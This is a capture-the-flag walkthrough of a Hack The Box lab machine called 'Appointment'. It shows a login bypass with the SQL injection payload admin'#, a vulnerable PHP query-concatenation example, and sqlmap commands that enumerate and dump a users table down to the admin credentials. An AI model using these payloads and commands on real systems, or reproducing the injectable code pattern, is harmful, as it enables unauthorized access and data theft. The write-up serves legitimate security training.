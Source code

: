 ```yaml
---
title: "[Starting Point] Tier 1: Appointment"
tags:
  - Very Easy
  - Linux
  - SQLi
  - MariaDB
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  | 10.129.78.154 |  |

---

### [ What does the acronym SQL stand for? ]

Structured Query Language

---

### [ What is one of the most common type of SQL vulnerabilities? ]

SQL Injection

---

### [ What does PII stand for? ]

Personally Identifiable Information

---

### [ What does the OWASP Top 10 list name the classification for this vulnerability? ]

Based on the [OWASP page](https://owasp.org/www-project-top-ten/), the classification is: **A03:2021-Injection**

---

### [ What service and version are running on port 80 of the target? ]

Let's run a basic nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.129.78.154
```

![screenshot1](../assets/images/appointment/screenshot1.png)

From the results, we can see that the service and version running on port 80 is **Apache httpd 2.4.38 ((Debian))**

---

### [ What is the standard port used for the HTTPS protocol? ]

443

---

### [ What is one luck-based method of exploiting login pages? ]

Brute-forcing

---

### [ What is a folder called in web-application terminology? ]

Directory

---

### [ What response code is given for "Not Found" errors? ]

Response code: **404**

---

### [ What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains? ]

`dir`

---

### [ What symbol do we use to comment out parts of the code? ]

`#`

---

### [ Submit root flag ]

Let's visit `http://10.129.78.154/`:

![screenshot2](../assets/images/appointment/screenshot2.png)

We are greeted with a login page.

I first tried default credentials like **admin:admin**. Unfortunately, none of those credentials worked.

As the room suggests, we most likely have to use SQL injection in order to log into an account. 

One of the most common methods of SQLi is to use the comment characters, `#` or `--` to comment out the rest of the query. This will work if the server simply concatenates the user input for username and password directly into the query that is sent over to the database.

Take the following PHP code for eg:

```php
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.

$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

If we input username=`test` and password=`test`, then the SQL query that is sent to the DB will be:

```
SELECT * FROM users WHERE username='test' AND password='test'
```

However, what if we input username=`admin'#` and a random password? The SQL query becomes:

```
SELECT * FROM users WHERE username='admin'#' AND password='test'
```

Because of the `#` character, whatever comes after that will become a comment and will not be included in the SQL query. This means that `' AND password='test'` becomes a comment in the PHP code and the SQL query that is sent will be:

```
SELECT * FROM users WHERE username='admin'
```

This query will succeed if there is a user called '**admin**', and we would be able to log into their account!

Let's try using `admin'#` as the username on the website:

![screenshot3](../assets/images/appointment/screenshot3.png)

It works! We got the root flag.

---

### [ BONUS: USING SQLMAP TO ENUMERATE ADMIN CREDENTIALS ]

If we want to go a bit overkill, we can use `sqlmap` to obtain the admin credentials. Let's first see if the login form on the website is susceptible to SQLi and if so, enumerate the databases present on the DB.

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 --dbs --batch 
```

* *--forms will automatically detect forms that are on the host.*

* *--dbs enumerates databases present on the DB server.*

* *--batch automatically answers prompts by sqlmap during runtime.*

![screenshot4](../assets/images/appointment/screenshot4.png)

Great, `sqlmap` managed to find a few injection points with the **username** field. From the results, we can see that there are 2 dbs: **appdb** and **information_schema**.

Let's now update our sqlmap command to enumerate the tables in the **appdb** db:

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 -D appdb --tables --batch
```

*(We now use the -D option to specify the target db and the --tables to enumerate tables within that target db)*

![screenshot5](../assets/images/appointment/screenshot5.png)

There is a table called **users**.

Finally, let's update our sqlmap command once more to dump out all the data in that table:

```
sqlmap -u "http://10.129.78.154/" --forms --risk=3 --level=5 -D appdb -T users --dump --batch
```

*(This time, we use -T to specify the table and --dump to dump out all table contents)*

![screenshot1](../assets/images/appointment/screenshot6.png)

And we get the admin credentials:

> admin : 328ufsdhjfu2hfnjsekh3rihjfcn23KDFmfesd239"23m^jdf
